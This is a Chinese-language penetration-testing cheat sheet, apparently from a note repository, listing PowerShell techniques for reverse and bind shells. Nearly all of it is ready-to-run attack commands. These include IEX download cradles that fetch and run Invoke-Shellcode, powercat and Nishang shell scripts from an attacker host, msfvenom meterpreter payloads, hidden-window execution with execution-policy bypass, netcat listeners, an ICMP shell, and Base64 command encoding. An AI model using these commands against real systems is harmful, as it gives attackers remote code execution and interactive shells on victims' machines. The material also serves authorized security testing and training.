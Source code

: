   #### MSF+Powershell
	反弹MSF
	靶机
	PS >IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.100/powersploit/CodeExecution/Invoke-Shellcode.ps1') 
	PS >Invoke-Shellcode -payload windows/meterpreter/reverse_http -lhost 192.168.0.100 -lport 6666 -force
	攻击机：
	>use exploit/multi/handler
	>set payload windows/x64/meterpreter/reverse_ https
	>run
	或
	>msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.100 LPORT=4444 -f powershell -o /var/www/html/ps
	>IEX(New-Object Net.WebClient).DownloadString("http://192.168.0.100/powersploit/CodeExecution/Invoke-Shellcode.ps1")
	>IEX(New-Object Net.WebClient).DownloadString("http://192.168.0.100/ps")
	>Invoke-Shellcode -Shellcode ($buf)
	或
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f psh-reflection >/var/www/html/a.ps1
	>powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.101/a.ps1')"
  #### Powercat
	>powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
	正向连接
	靶机:powercat -l -p 8080 -e cmd.exe –v
	攻击机:nc 192.168.0.1 8080 –vv
	反向连接：
	攻击机：nc –l –p 8080 –vv
	靶机:powercat –c 192.168.0.1 –p 8080 –v –e cmd.exe
	远程执行
	>powershell -nop -w hidden -ep bypass "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.0.107/ps/powercat/powercat.ps1'); powercat -c 192.168.0.107 -p 12345 -v -e cmd.exe"
	正向连接
	靶机:powercat -l -p 8080 -e cmd.exe -v
	攻击机:nc 192.168.0.1 8080 -vv
	反向连接：
	攻击机：nc -l -p 8080 -vv
	靶机:powercat -c 192.168.0.1 -p 8080 -v -e cmd.exe
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/207.png)
  #### Nishang
  ##### Bind shell
	靶机：
	>powershell -nop -w hidden -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Bind -Port 12138"
	攻击机：
	>nc 靶机IP 12138
  ##### 反向shell
	攻击机：
	>nc -vnlp 9999
	靶机：
	>powershell -nop -w hidden -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 攻击机IP -port 9999"
  ##### UDP反向shell
	攻击机：
	>nc -lvup 12138
	靶机：
	>powershell -nop -w hidden -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 攻击机IP -port 12138"
  ##### HTTPS
	攻击机：
	>powershell -nop -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Shells/Invoke-PoshRatHttps.ps1'); Invoke-PoshRatHttps -IPAddress 192.168.0.98 -Port 8080 -SSLPort 443"  IP地址是本机IP
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/208.png)

	靶机：
	>powershell -w hidden -nop -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.98:8080/connect')
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/209.png)
  ##### ICMP
	攻击机IP:108
	靶机IP:100
	https://github.com/inquisb/icmpsh
	靶机执行
	>powershell -nop -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.108/ps/nishang/Shells/Invoke-PowerShellIcmp.ps1');Invoke-PowerShellIcmp 192.168.0.108
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/210.png)

	攻击机执行，开启相应ICMP ECHO请求
	>sysctl -w net.ipv4.icmp_echo_ignore_all=1
	>./icmpsh_m.py 192.168.0.108 192.168.0.100
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/211.png)
  #### Base64
	>Powershell "$string="net user";[convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($string))"